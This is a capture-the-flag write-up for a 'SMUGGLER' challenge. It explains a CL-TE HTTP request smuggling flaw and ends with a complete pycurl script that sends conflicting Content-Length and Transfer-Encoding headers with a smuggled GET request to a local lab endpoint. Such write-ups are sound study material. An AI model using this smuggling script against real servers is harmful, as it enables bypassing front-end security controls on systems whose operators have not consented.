 # SMUGGLER

## Prompt

```
Hey kid, this next job's a little tricky. 

'Case ya didn't figure, some fanatics have been going around blasting water out of the galaxy.
Yeah, water. And little guys like you 'n me are the ones feeling it. Big embargo on water—its like gold now.

Client is on the space station, doin the 'hide 'n plain sight' trick. I got you an old cargo ship to look the part, complete with the management system.

Hard part's getting the ice past customs. 

Just a little hint from your favorite handler: 
Do this in one go.
```

## Vulnerability

This application suffers from a CL-TE type smuggle vulnerability.

The 'front-end' server prioritizes and parses data by the 'Content-Length' header.
The 'back-end' server prioritizes and parses data by the 'Transfer-Encoding' header.

Protocol allows both of these headers to exist in the same request, even though these headers contradict. As a result, the front-end and back-end ignore the header they do not prioritize.
If the back-end server is the one executing requests, our goal should be to craft a request that passes both server's checks and gives the back-end a normally illegal request. 

## Solution

First, consider that we need to find a target. The site has multiple pages selectable from the left menu.
1. 'About' and 'Laws & Regs' contain some text, but nothing manipulatable.
2. 'flag.txt' is a prank button. 
3. 'Inventory' presents a list of items selectable with a checkbox.
4. 'Inspection Request' lists our selected items from 'Inventory' along with a 'Submit' button

Inspecting the request made by the submit button shows that it POSTs to /customsinspection. As the theme and prompt of the challenge hints about the customs inspection, and that this page is the only one allowing POST requets to customs, this is likely our target. Attempting to make a GET request from this page will response with an 'invalid method' response, further indicating there is something hidden.

Lets begin to form a potential attack:

First, lets define the url.
```
response = BytesIO()

url = "http://127.0.0.1:5000/customsinspection"                              # Target endpoint, doesn't allow GET but allows POST
```

There are a few types of smuggle requests, but the most basic is CL-TE. Let's set the headers for both:

```
headers = [f'Content-Length: {len(payload)}', 'Transfer-Encoding: chunked']  # Set both headers   
```

Now the payload requires a 0 at the beginning such that the back-end sees it and assumes the first chunk (the POST) has ended.
Thus whenever it sees data after, it assumes it is a new and valid request. Then, have it follow an invalid request.

```
payload = """
0
GET /customsinspection HTTP/1.1
"""
```

One more thing to consider is that our prompt told us to smuggle the ice through. If we observe the POST request, we can see that the array of selected items is structured like so:
```
payload = """
0
GET /customsinspection HTTP/1.1

[
   "Ice Blocks"
]
"""
```

Now, use a scripting tool to bundle everything up and send it.

```
req = pycurl.Curl()
req.setopt(req.URL, url)                # Target URL
req.setopt(req.POST, 1)                 # Enable POST
req.setopt(req.HTTPHEADER, headers)     # Load custom headers
req.setopt(req.POSTFIELDS, payload)     # Add data
req.setopt(req.WRITEDATA, response)     # Save data to variable
req.perform()
```

Using tools like Burp Suite will likely either be a pain or unusuable, as these tools will see the 'Transfer-Encoding: chunked' and format the requests into chunks before sending the data! This breaks the attack as it requires everything to be 'sent in one go', as the prompt lightly hints toward.

Sending the request and reading the response will yield the flag.

## Script

```
import requests 
import pycurl
import webbrowser
from io import BytesIO

response = BytesIO()

payload = """
0
GET /customsinspection HTTP/1.1

[
   "Ice Blocks"
]
"""

url = "http://127.0.0.1:5000/customsinspection"                              # Target endpoint, doesn't allow GET but allows POST
headers = [f'Content-Length: {len(payload)}', 'Transfer-Encoding: chunked']  # Set both headers   

req = pycurl.Curl()
req.setopt(req.URL, url)                # Target URL
req.setopt(req.POST, 1)                 # Enable POST
req.setopt(req.HTTPHEADER, headers)     # Load custom headers
req.setopt(req.POSTFIELDS, payload)     # Add data
req.setopt(req.WRITEDATA, response)     # Save data to variable
req.perform()

# Save the response data to a file
with open('response.html', 'wb') as f:
    f.write(response.getvalue())

# Open html to web browser
webbrowser.open('response.html')
```